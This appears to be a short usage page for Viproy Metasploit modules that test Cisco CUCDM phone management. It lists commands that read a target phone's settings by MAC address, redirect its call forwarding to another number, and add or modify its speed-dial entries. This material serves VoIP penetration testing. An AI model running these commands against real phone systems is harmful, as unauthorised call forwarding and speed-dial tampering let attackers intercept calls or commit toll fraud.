 #Cisco CUCDM Testing Modules Usage

##Call Forwarding

use auxiliary/voip/viproy_cucdm_callforward <br>
set RHOST 192.168.1.151<br>
set RPORT 8080<br>
set ACTION INFO<br>
set MAC 001795A603C2<br>
run<br><br><br>

set ACTION FORWARD<br>
set FORWARDTO 007<br>
run<br><br><br>

set ACTION INFO<br>
run<br>

http://www.viproy.com/captures/viproy_cucdm_callforward.pcapng<br>

##Speeddial Manipulation

use auxiliary/voip/viproy_cucdm_speeddials <br>
set RHOST 192.168.1.151<br>
set RPORT 8080<br>
set MAC 001795A603C2<br>
run<br><br><br>

set ACTION ADD<br>
set NAME Viproy<br>
set TELNO 007<br>
set POSITION 3<br>
run<br><br><br>

set ACTION INFO<br>
run<br><br><br>

set ACTION MODIFY<br>
set POSITION 1<br>
set NAME janedoe<br>
set TELNO 007<br>
run<br><br><br>

set ACTION INFO<br>
run<br>

http://www.viproy.com/captures/viproy_cucdm_speeddial.pcapng<br>